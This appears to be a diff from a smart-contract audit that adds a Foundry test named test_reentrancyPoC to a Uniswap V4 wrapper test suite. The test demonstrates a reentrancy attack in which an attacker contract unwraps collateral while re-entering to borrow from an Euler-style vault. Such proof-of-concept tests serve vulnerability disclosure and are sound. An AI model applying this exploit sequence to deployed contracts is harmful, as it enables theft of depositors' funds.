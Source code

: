 ```diff

-    bool public constant TEST_NATIVE_ETH = false;
+    bool public constant TEST_NATIVE_ETH = true;

     function deployWrapper() internal override returns (ERC721WrapperBase) {
         currency0 = Currency.wrap(address(token0));
@@ -407,6 +447,59 @@ contract UniswapV4WrapperTest is Test, UniswapBaseTest {
         }
     }

+    function test_reentrancyPoC() public {
+        address attacker = address(new ReentrantBorrower());
+
+        LiquidityParams memory params = LiquidityParams({
+            tickLower: TickMath.MIN_TICK + 1,
+            tickUpper: TickMath.MAX_TICK - 1,
+            liquidityDelta: -19999
+        });
+
+        deal(token0, attacker, 100 * unit0);
+        deal(token1, attacker, 100 * unit1);
+        startHoax(attacker);
+        SafeERC20.forceApprove(IERC20(token0), address(router), type(uint256).max);
+        SafeERC20.forceApprove(IERC20(token1), address(router), type(uint256).max);
+        SafeERC20.forceApprove(IERC20(token0), address(mintPositionHelper), type(uint256).max);
+        SafeERC20.forceApprove(IERC20(token1), address(mintPositionHelper), type(uint256).max);
+        (tokenId,,) = boundLiquidityParamsAndMint(params, attacker);
+
+        startHoax(attacker);
+        wrapper.underlying().approve(address(wrapper), tokenId);
+        wrapper.wrap(tokenId, attacker);
+        wrapper.enableTokenIdAsCollateral(tokenId);
+
+        evc.enableCollateral(attacker, address(wrapper));
+        evc.enableController(attacker, address(eVault));
+
+        console.log("eVault.debtOfExact(attacker) before: %s", eVault.debtOfExact(attacker));
+        console.log("balanceOf(attacker, tokenId) before: %s", wrapper.balanceOf(attacker, tokenId));
+        console.log("balanceOf(attacker) before: %s", wrapper.balanceOf(attacker));
+
+        assertEq(wrapper.balanceOf(attacker, tokenId), wrapper.FULL_AMOUNT());
+        uint256 balanceBefore = wrapper.balanceOf(attacker);
+
+        ReentrantBorrower(payable(attacker)).setEnabled(wrapper, tokenId, eVault, evc);
+
+        wrapper.unwrap(
+            attacker,
+            tokenId,
+            attacker,
+            wrapper.FULL_AMOUNT() * 99/100,
+            bytes("")
+        );
+
+        console.log("eVault.debtOfExact(attacker) after: %s", eVault.debtOfExact(attacker));
+        console.log("balanceOf(attacker, tokenId) after: %s", wrapper.balanceOf(attacker, tokenId));
+        console.log("balanceOf(attacker) after: %s", wrapper.balanceOf(attacker));
+
+        assertEq(wrapper.balanceOf(attacker, tokenId), wrapper.FULL_AMOUNT() / 100);
+        assertGt(balanceBefore, wrapper.balanceOf(attacker));
+    }
+
```